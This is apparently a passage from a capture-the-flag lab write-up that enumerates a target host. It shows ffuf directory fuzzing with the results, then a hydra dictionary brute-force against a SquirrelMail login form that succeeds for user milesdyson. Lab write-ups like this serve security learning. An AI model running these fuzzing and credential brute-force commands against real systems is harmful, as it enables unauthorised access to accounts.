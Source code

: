 ```log1.txt
```

- `log1.txt` seems to be a dictionary of passwords. `log2` and `log3.txt` are empty.

- Okay. We got a username and a dictionary of passwords. But where do we use them?

- I tried running `hydra` against the `ssh` service, but with no luck.

- So I have started fuzzing for more endpoints on the webserver.

```
ffuf -u http://10.10.54.6/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100
```

```
admin                   [Status: 301, Size: 308, Words: 20, Lines: 10]
css                     [Status: 301, Size: 306, Words: 20, Lines: 10]
js                      [Status: 301, Size: 305, Words: 20, Lines: 10]
config                  [Status: 301, Size: 309, Words: 20, Lines: 10]
ai                      [Status: 301, Size: 305, Words: 20, Lines: 10]
squirrelmail            [Status: 301, Size: 315, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 275, Words: 20, Lines: 10]
```

- I got a `403 Forbidden` on all endpoints except `squirrelmail`.

- Here, if we take a careful look at the URL, we see that we're already in `/squirrelmail/src/login.php` path.

- I tried fuzzing `/squirrelmail` further to see if there's anything else left.

```
images                  [Status: 301, Size: 322, Words: 20, Lines: 10]
themes                  [Status: 301, Size: 322, Words: 20, Lines: 10]
plugins                 [Status: 301, Size: 323, Words: 20, Lines: 10]
src                     [Status: 301, Size: 319, Words: 20, Lines: 10]
include                 [Status: 403, Size: 275, Words: 20, Lines: 10]
config                  [Status: 301, Size: 322, Words: 20, Lines: 10]
class                   [Status: 403, Size: 275, Words: 20, Lines: 10]
help                    [Status: 403, Size: 275, Words: 20, Lines: 10]
functions               [Status: 403, Size: 275, Words: 20, Lines: 10]
po                      [Status: 403, Size: 275, Words: 20, Lines: 10]
locale                  [Status: 403, Size: 275, Words: 20, Lines: 10]
```

- However, most of these either had a redirect in place that pointed me back to `/src/login.php` or I had no access at all.

- Back to our `login.php` page, we see that here's a login panel. 

- I tried running `hydra` with `miles` and `dyson` as usernames, but I had no luck. Then, I tried with `milesdyson` as username and I got in.

```bash
sudo hydra -l milesdyson -P log1.txt 10.10.54.6 http-post-form "/squirrelmail/src/redirect.php:login_username=milesdyson&secretkey=^PASS^:incorrect." -vv -I
```
